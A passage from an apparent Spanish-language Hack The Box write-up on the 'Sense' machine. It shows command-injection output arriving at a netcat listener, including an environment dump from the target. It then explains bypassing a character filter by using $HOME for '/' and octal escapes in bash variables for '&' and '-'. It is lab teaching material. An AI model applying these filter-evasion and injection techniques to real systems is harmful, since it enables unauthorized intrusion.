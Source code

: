 Observa el resultado:
```bash
nc -nvlp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [10.10.10.60] 63944
OLDPWD=/
HOME=/
PHP_FCGI_MAX_REQUESTS=500
PATH=/sbin:/bin:/usr/sbin:/usr/bin:/usr/local/bin:/usr/local/sbin
LANG=en_US.ISO8859-1
PHP_FCGI_CHILDREN=1
PWD=/var/db/rrd
```
Entonces, si usamos HOME dentro de nuestra inyección, será igual al **slash(/)**, probemoslo:

<p align="center">
<img src="/assets/images/htb-writeup-sense/Captura16.png">
</p>

```bash
nc -nvlp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [10.10.10.60] 10532
/
```
Y listo, de esta forma podemos usar el **slash(/)**, para el **ampersand(&) y guion(-)** la cosa cambia, porque no tenemos una variable de entorno a la cual referenciar. Para solucionar esto, podemos usar su código ASCII dentro de una varible de bash, lo que permitira usar estos dos caracteres.

* Para el **ampersand(&)** en **ASCII** es: *\046*

* Para el **guion(-)** en **ASCII** es: *\055*

Intenta a meterlos en una variable cada uno, y ejecutalo en una inyección de comandos para ver si funcionan:
